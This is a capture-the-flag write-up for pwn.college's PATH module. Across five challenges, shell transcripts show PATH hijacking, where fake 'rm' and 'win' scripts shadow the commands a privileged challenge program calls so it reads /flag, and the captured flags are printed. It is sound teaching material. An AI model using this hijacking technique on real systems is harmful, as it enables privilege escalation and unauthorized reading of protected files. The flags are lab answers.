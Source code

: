 # Pondering PATH
## 1. The PATH Variable
```
hacker@path~the-path-variable:~$ mkdir -p ~/fakebin
hacker@path~the-path-variable:~$ cat > ~/fakebin/rm <<'EOF'
> exit 0
> EOF
hacker@path~the-path-variable:~$ chmod +x ~/fakebin/rm
hacker@path~the-path-variable:~$ PATH="$HOME/fakebin:$PATH" /challenge/run
Trying to remove /flag...
The flag is still there! I might as well give it to you!
pwn.college{QwjeNN67h9tW37Xce4XfZ3A0_iA.QX2cDM1wSMwEzNzEzW}
hacker@path~the-path-variable:~$ 
```
### Steps

I created a directory that I control and placed a fake version of a common command inside it. Then I arranged my environment so that my fake directory appeared earlier in the PATH than system directories. When the challenge invoked the command, my fake command executed instead of the system one, which prevented the challenge from removing the flag and caused it to print the flag to me.

### What I Learned

I learned that the PATH variable defines the search order for executables and that modifying PATH can cause my shell to run different programs than expected. This taught me why it’s important to control the PATH order and why scripts should use absolute paths for security-sensitive operations.

### References

Shell PATH environment variable documentation

Articles on secure PATH handling and command lookup order
## 2. Setting PATH
```
hacker@path~setting-path:~$ ls -l /challenge/more_commands
total 4
-rwsr-xr-x 1 root root 281 Jan 14  2025 win
hacker@path~setting-path:~$ PATH=/challenge/more_commands /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{0JcMPuPZh2ibrI3uJXxyImgBd0t.QX1cjM1wSMwEzNzEzW}
hacker@path~setting-path:~$ 
```
### Steps

I examined where the challenge expected to find helper programs and then set the PATH to point directly at that directory so the program it needed would be found and executed. By providing the correct PATH, the challenge executed the intended helper binary and returned the flag.

### What I Learned

I learned how supplying a custom PATH can be used constructively to ensure the right utilities are invoked, and how programs can be configured to look in specific directories for tools. This reinforced how PATH can be both a convenience and a control mechanism.

### References
same as last one
## 3. Finding Commands
```
hacker@path~finding-commands:~$ dir="$(dirname "$(readlink -f "$(which win)")")"
hacker@path~finding-commands:~$ cat "$dir/flag"
pwn.college{cZEYFqHh5dbEYrV_F6uzKU0OiXT.01NzEzNxwSMwEzNzEzW}
```
### Steps

I resolved which directory contained the command used by the challenge by following symlinks and locating the program’s real path. Once I had the directory, I inspected files colocated with that command to find where the challenge stored the flag and then read it to get the flag.

### What I Learned

I learned how utilities like which and readlink (and the general idea of resolving symlinks) let me find the absolute location of programs. This showed how program installation paths often contain useful related files and how following the filesystem layout can reveal secrets.

### References
idk, just FAFO'd my way

## 4. Addng Commands
```
hacker@path~adding-commands:~$ mkdir -p ~/winbin
hacker@path~adding-commands:~$ cat > ~/winbin/win <<'EOF'
> read -r FLAG </flag
> printf '%s\n' "$FLAG"
> EOF
hacker@path~adding-commands:~$ chmod +x ~/winbin/win
hacker@path~adding-commands:~$ PATH="$HOME/winbin" /challenge/run
Invoking 'win'....
pwn.college{Eo3rtg3EzINKWuyT6leKR19ZGC3.QX2cjM1wSMwEzNzEzW}
hacker@path~adding-commands:~$ 
```
### Steps

I created my own directory of utilities and put a small program in it that printed the flag when invoked. By inserting that directory at the start of my PATH, the challenge invoked my custom program instead of any system utility, and I received the flag.

What I Learned

I learned how easy it is to extend the set of available commands by adding custom scripts to a directory that’s in PATH. This reinforced both the power and the potential danger of order-dependent command lookup: you can add useful shortcuts, but you can also accidentally shadow system tools.

References

Creating executable scripts and adding them to PATH

Security notes on user-installed bin directories in PATH
## 5. Hijacking Commands
```
hacker@path~hijacking-commands:~$ echo "/run/dojo/bin/cat /flag" > rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{E8rtirteacp307LBLs5qr9woBps.QX3cjM1wSMwEzNzEzW}
hacker@path~hijacking-commands:~$ 
```
### Steps

I wrote a replacement for a commonly used command and made sure my replacement would be found first in the PATH lookup order. When the challenge tried to call the original command, my replacement ran instead and exposed the flag.

### What I Learned

I learned about command hijacking: when a malicious or unintended program appears earlier in PATH, it will be executed in place of the expected program. This illustrated why administrators should avoid putting writable directories early in PATH for privileged users and why scripts should avoid relying on untrusted PATHs.

### References

PATH hijacking and hardening shell environments documentation
